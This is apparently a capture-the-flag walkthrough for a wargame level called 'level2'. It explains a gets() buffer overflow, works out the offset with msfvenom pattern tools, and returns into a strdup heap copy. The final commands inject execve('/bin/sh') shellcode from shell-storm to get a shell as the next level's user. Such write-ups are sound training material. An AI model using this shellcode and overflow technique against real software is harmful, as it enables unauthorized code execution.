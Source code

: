 # level2



## Disassembled code  
`gdb -batch -ex "set disassembly-flavor intel" -ex "disas main" -ex "disas p" "level2" | GREP_COLOR='01;33' grep  --color=always -z '+36\|+39\|+44\|+49' | GREP_COLOR='01;32' grep --color=always -z '+51\|+56\|+59\|+63\|+66\|+71\|+78' | GREP_COLOR='01;31' grep -z '+83\|+86\|+89\|+89\|+94\|+97\|+100\|+105\|+106'`  
![alt IMAGE] (Ressources/disassembled.png)  
  
  
##walkthrough  
At *p+25, we can see a call to the gets function, we can use another way to enter manualy the value when we come to this instruction. We'll use the '<<<' redirection at the binary argument to enter the gets value.
  
At *p+36 we can see we move the [ebp-0xc] value in eax, [ebp-0xc] represents the 4 bytes from the 80th that we passed to GETS, we can see below:  
  
![alt IMAGE] (Ressources/p_36_value_ebp_0xc.png)  

We have find this offset with msfvenom and pattern\_offset tools like the two pictures below:  
  
Generate pattern with msfvenom:  
![alt IMAGE] (Ressources/msf_venom_p_36.png)  
  
We can see at the 0xffffd08c address ($ebp-0xc) we have the pattern (0x37634136) for get the offset with the pattern\_offset tool:  
  
![alt IMAGE] (Ressources/p_36_pattern_offset_tool.png)  
  
At *p+39, we can see the *and* operator, it keep just equal bits to both operands. In our case wedo not have to have a *b* in first bit, because the program don't segfault in this case.

![alt IMAGE] (Ressources/info_proc_all.png)  
  
That's a shame, because we have our 80 bytes are on the stack and the stack addres beginng by 0xb, you can show this *0x41* bytes:  
  
![alt IMAGE] (Ressources/stack_bytes.png)  
  
we can see at *p+100 strdup is called with our payload in argument  
  
![alt IMAGE] (Ressources/p_100_strdup_args.png)  
  
strdup return a string on the heap, we can show that on the return register (eax).

![alt IMAGE] (Ressources/p_105_strdup_return.png)  
  
We can see It's not a 0xb address, we can put a payload here  
  
I was get a payload on [shellstorm](http://shell-storm.org/shellcode/files/shellcode-841.php)
  
Let's test this on gdb:  
`(gdb) r <<< $(python -c "print  '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'A' * (80 - 21) + '\x08\xa0\x04\x08'")`  
  
![alt IMAGE] (Ressources/exploit_with_gdb.png)

Ok, /bin/dash is started on gdb and exit directly, we can use this command to get the level3 right:
`(python -c "print  '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'A' * (80 - 21) + '\x08\xa0\x04\x08'";cat) | ./level2`
  
![alt IMAGE] (Ressources/finish.png)
